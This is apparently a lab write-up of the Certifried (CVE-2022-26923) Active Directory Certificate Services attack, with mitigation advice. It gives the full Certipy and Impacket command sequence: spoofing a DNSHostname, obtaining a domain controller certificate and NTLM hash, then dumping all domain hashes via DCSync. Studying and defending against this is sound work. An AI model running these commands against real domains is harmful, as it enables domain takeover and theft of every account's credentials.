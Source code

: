 ![Certifried-diagram](Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer.
4. Those templates are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
5. Those templates **allow the certificate holder to authenticate** with them.
6. *When generating a certificate for a computer object*, the template will check its `DNSHostname` property and **will generate the certificate based on that**.
7. **Meaning:** *if the computer's* `DNSHostname` *says it's a Domain Controller,* you will get a certificate for a **Domain Controller!**
8. *By default,* **any authenticated user** can join up to 10 computers to the domain.
9. *When a user joins a computer to the domain,* he can modify its `DNSHostname` property.
10. *Combining points above,* a user can *spoof* the `DNSHostname` to *forge* a certificate as a **Domain Controller**.
11. *With a Domain Controller's certificate,* the user *can obtain* the computer account's **NTLM** hash.
12. *And with that hash,* can he *pose* as a legit **Domain Controller** and *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft (https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all (https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- **Oliver Lyak** (https://twitter.com/ly4k_) who discovered and reported the vulnerability and created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D